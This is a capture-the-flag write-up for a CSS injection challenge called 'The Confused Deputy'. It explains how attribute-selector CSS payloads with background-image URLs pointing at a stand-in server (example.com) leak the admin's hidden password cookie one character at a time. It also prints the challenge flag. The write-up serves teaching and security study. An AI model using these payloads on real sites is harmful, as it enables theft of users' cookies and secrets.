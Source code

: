 # The Confused Deputy

Author: [roerohan](https://github.com/roerohan)

## Description

This website can be exploited with the help of CSS Injection.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Node.js

## Sources

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.
```

## Exploit

This is a CSS injection challenge (of course you can do `<<script >>` but the intended solution is CSS injection). In the page you open, you can see that there is an input box where you can enter a color, which gets applied as you click on submit. There's also a hidden field `password`, the value of which is taken from the cookie. Since the string is interpolated, you can do something like `blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');`, which will send a request to `example.com?c`, if the first character of the password is `c`.
<br />

You may pass a long list of such CSS selectors, for all letters, for example. For example:

```css
input[type="password"][value^="a"] {background-image: url('https://example.com?a');}
input[type="password"][value^="b"] {background-image: url('https://example.com?b');}
input[type="password"][value^="c"] {background-image: url('https://example.com?c');}
...
```

This will therefore tell you which character matched, which you can see on your own server (here example.com). Once the first character is leaked, you can go ahead and try to leak the next character.

```css
input[type="password"][value^="ca"] {background-image: url('https://example.com?ca');}
input[type="password"][value^="cb"] {background-image: url('https://example.com?cb');}
input[type="password"][value^="cc"] {background-image: url('https://example.com?cc');}
...
```

An so on, until you find the entire password. You can test this on your browser by storing a cookie called `password` with the value `csictf`. Now pass the following to get a request on your server (replace example.com with your server).

```css
blue;} input[type="password"][value^="csictf"] {background-image: url('https://example.com?csictf');
```

Pass these payloads to `/admin` and you can leak the admin cookie `password`, which is the flag. The final payload with the help of which you can find the entire flag is:

```css
blue;} input[type="password"][value^="csictf{cssxss}"] {background-image: url('https://example.com?csictf{cssxss}');
```

<br />

The flag is:

```
csictf{cssxss}
```